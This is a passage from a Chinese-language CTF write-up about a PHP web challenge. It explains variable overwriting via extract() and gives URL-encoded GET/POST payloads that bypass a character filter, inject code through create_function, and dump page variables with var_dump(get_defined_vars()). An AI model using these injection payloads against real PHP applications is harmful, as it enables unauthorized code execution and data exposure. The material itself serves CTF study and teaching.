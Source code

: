 这里我们就已经知道这道题如何实现了

这里有个问题 我们如何输出呢

这里还要注意上面的

## extract($_GET["flag"]) 变量覆盖

```cobol
 
extract($_GET["flag"])
 
举例子
 
?flag[name]=John&flag[age]=30，
 
那么调用 extract($_GET["flag"]); 
 
 
将会创建两个变量 $name 和 $age，并
 
将它们的值分别设置为 "John" 和 30。
```

所以这里我们可以将flag通过flag来设定值

这样我们可以绕过上面的 数字字母过滤 preg_match 不会匹配到  


所以我们可以构造payload

```cobol
fl%61ag[co%64e]=create_function&fl%61ag[%61rg]=;}();//
```

所以现在的payload

```cobol
GET
 
?deb%75=aq%75a_is_c%75te%0a&file=data://text/plain,deb%75_deb%75_aq%75a&shan%61[]=1&p%61sswd[]=2&fl%61g[co%64e]=create_function&fl%61g[%61rg]=};//
 
 
POST 
 
debu=1&file=2   //其他不需要是因为我们没有传入字母了
```

然后这里我们无法获取到内容 所以我们通过 **get_defined_vars()** 输出页面中的所有变量

## var_dump(get_defined_vars())输出页面所有变量

```cobol
GET
 
?deb%75=aq%75a_is_c%75te%0a&file=data://text/plain,deb%75_deb%75_aq%75a&shan%61[]=1&p%61sswd[]=2&fl%61g[co%64e]=create_function&fl%61g[%61rg]=}var_dump(get_defined_vars());//
 
 
POST 
 
debu=1&file=2   //其他不需要是因为我们没有传入字母了
```
